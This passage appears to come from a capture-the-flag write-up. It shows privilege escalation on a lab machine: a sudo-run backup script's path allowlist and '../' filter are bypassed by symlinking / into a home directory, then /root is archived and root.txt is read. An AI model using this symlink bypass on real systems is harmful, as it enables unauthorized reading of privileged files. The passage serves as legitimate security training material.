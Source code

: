 We can specify a directory to archive and the destination folder of the archive.
If we take a look at the script, we can see two important rules :
1. We can only archive directories from `/var` or `/home`.
2. We cannot use the `../` syntax to go to the parent folder.
```bash
allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")
```

We can try to make a symlink of the root of the machine and archive the `root` folder from this symlink :
```bash
$ ln -s / root_machine
$ cat task.json 
{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/home/martin/backups/root_machine/root"
        ],

        "exclude": [
                ".*"
        ]
}
```

Then we can run the script using sudo :
```bash
$ sudo /usr/bin/backy.sh task.json 
2025/07/22 03:47:49 🍀 backy 1.2
2025/07/22 03:47:49 📋 Working with task.json ...
2025/07/22 03:47:49 💤 Nothing to sync
2025/07/22 03:47:49 📤 Archiving: [/home/martin/backups/root_machine/root]
2025/07/22 03:47:49 📥 To: /home/martin/backups ...
2025/07/22 03:47:49 📦
```

It works ! Let's see if the archive contains the root flag by unarchiving it :
```bash
$ tar -xvf code_home_martin_backups_root_machine_root_2025_July.tar.bz2 
home/martin/backups/root_machine/root/
home/martin/backups/root_machine/root/scripts/
home/martin/backups/root_machine/root/scripts/cleanup.sh
home/martin/backups/root_machine/root/scripts/backups/
home/martin/backups/root_machine/root/scripts/backups/task.json
home/martin/backups/root_machine/root/scripts/backups/code_home_app-production_app_2024_August.tar.bz2
home/martin/backups/root_machine/root/scripts/database.db
home/martin/backups/root_machine/root/scripts/cleanup2.sh
home/martin/backups/root_machine/root/root.txt
$ cat home/martin/backups/root_machine/root/root.txt
...
```

And we finally rooted the machine, congrats ! :D